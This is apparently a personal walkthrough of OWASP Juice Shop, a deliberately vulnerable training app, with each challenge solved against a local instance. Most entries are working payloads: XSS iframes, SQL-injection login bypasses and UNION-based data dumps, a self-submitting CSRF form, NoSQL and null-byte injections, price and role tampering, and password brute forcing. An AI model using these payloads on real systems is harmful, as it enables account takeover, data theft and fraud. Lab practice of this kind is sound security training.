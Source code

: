 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar <br>
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```
### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
```
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]
rename .xml file extension to .zip or .pdf > uoload and submit
burp suite > repeater > remove .zip to .xml extension
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"
```
### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op<br>
burp suite > intruder > positions: password > attack type: sniper<br>
payloads > usr/share/wordlist/fern-wifi/common.txt <br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 
http://localhost:3000/#/contact <br>
burp suite > proxy > repeater <br>
send x10 <br>

### CSRF
download firefox 96.0 <br>
http://localhost:3000/profile > login into account <br>
http://htmledit.squarefree.com/ <br>
submit form: <br>
```
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

### Database schema
http://localhost:3000/#/search?q=<br>
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master-- HTTP/1.1<br>

### Upload size

### Manipulate Basket 
Add to basket<br>
burp suite > proxy > repeater <br>
POST /api/BasketItems/ HTTP/1.1 <br>
```
"ProductId":24,
"BasketId":"1",
"quantity":1,
"BasketId":"3"
```

### Reset Jim's Password 
http://localhost:3000/#/forgot-password<br>
email:jim@juice-sh.op<br>
secret: Samuel<br>

###  Forged Review 
add review for item<br>
burp suite > proxy<br>
"author":"emma@juice-sh.op"<br>

### Login Bender
http://localhost:3000/#/login<br>
email: bender@juice-sh.op'--<br>
password: '<br>

### Login Amy
http://localhost:3000/#/login<br>
burp suite > proxy<br>
"email":"amy@juice-sh.op"<br>
"password":"K1f....................."<br>

### GDPR Data Erasure 
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>
http://localhost:3000/#/login<br>
email:chris.pike@juice-sh.op'--<br>
password:'<br>

### Deluxe Fraud
http://localhost:3000/#/deluxe-membership<br>
firefox > inspect elements on Pay button<br>
remove disabled="true",mat-button-disabled<br>
burp suite > proxy > repeater <br> 
"paymentMode":"paid" <br>

### Payback time
Add to basket <br>
burp suite > proxy<br>
POST /api/BasketItems/ HTTP/1.1<br>
"ProductId":41,"BasketId":"1","quantity":-999<br>
check out<br>

### Privacy Policy Inspection 
firefox > highlighted glowing text > inspect <br>
span class="hot"<br>
search .hot<br>
http://localhost we may also instruct you to refuse all reasonably necessary responsibility<br>
http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility<br>

### Product tampering
burp suite > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
PUT /api/products/9 HTTP/1.1<br>
Content-Type: application/json<br>
{"description":"<a href=\"https://owasp.slack.com\""}<br>

## 4 STAR

### Easter Egg
### Nested Easter Egg
### Poison Null Byte 
http://localhost:3000/ftp<br>
GET /ftp/eastere.gg%2500.md HTTP/1.1<br>
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt<br>
online Caesar ciper: /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg<br>

### Forgoteen Sales Backup
http://localhost:3000/ftp<br>
GET /ftp/coupons_2013.md.bak%2500.md HTTP/1.1<br>

### Misplaced Signature File 
http://localhost:3000/ftp<br>
GET /ftp/suspicious_errors.yml%2500.md HTTP/1.1<br>

### Forgotten Developer Backup
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>

### Leaked Unsafe Product
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
id":11,"name":"Rippertuer Special Juice","description":"Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br />This item has been made unavailable because of lack of safety standards. (This product is unsafe! We plan to remove it from the stock!)"<br>
https://pastebin.com/90dUgd7s<br>
http://localhost:3000/#/contact<br>
Comment: Hueteroneel Eurogium Edule<br>

### Vulnerable Library
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>
http://localhost:3000/#/contact<br>
Comment:marsdb ~0.6,grunt ~1.0,express-jwt 0.1.3,js-yaml 3.10,sequelize ~4,sanitize-html 1.4.2,socket.io ~2.0<br>

### Legacy Typosquatting
http://localhost:3000/#/contact<br>
comment: epilogue-js<br>

### NoSQL Manipulation
write review<br>
burp suite > proxy > repeater<br>
PATCH /rest/products/reviews HTTP/1.1<br>
{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }<br>

### Allowlist Bypass
http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/bkimminich/juice-shop<br>

### Christmas special
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
POST /api/BasketItems/ HTTP/1.1
{"ProductId":10,"BasketId":"1","quantity":1}


### Ephemeral Accountant
http://localhost:3000/#/login <br>
burp suite > proxy > repeater <br>
{"email":"' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage','' as 'totpSecret', 1 as 'isActive','1999-08-16 14:14:41.644 +00:00' as 'createdAt','1999-08-16 14:33:41.930 +00:00' as 'updatedAt',null as 'deletedAt')--","password":""} <br>

### Expired Coupon
firefox > Debugger<br>
search: discount > WMNSDY2023<br>
bash > timedatectl set-ntp 0 > timedatectl set-time '2019-03-08' <br>

### Login Bjoern
firefox > Debugger > search: oauth <br>
bash > cat main1.js | grep password: <br>
password: btoa(e.email.split("").reverse().join("")),<br>
email: bjoern.kimminich@gmail.com<br>
moc.liamg@hcinimmik.nreojb<br>
bash > echo -n moc.liamg@hcinimmik.nreojb | base64<br>
bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=<br>
http://localhost:3000/#/login<br>
POST /rest/user/login HTTP/1.1<br>
{"email":"bjoern.kimminich@gmail.com","password":"bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI="}<br>

### Steganography
http://localhost:3000/#/about<br>
firefox > inspect photo
http://localhost:3000/assets/public/images/carousel/5.png
sudo dpkg -i openstego_0.8.6-1_all.deb
openstego > extract data
http://localhost:3000/#/contact
comment > pickle rick

































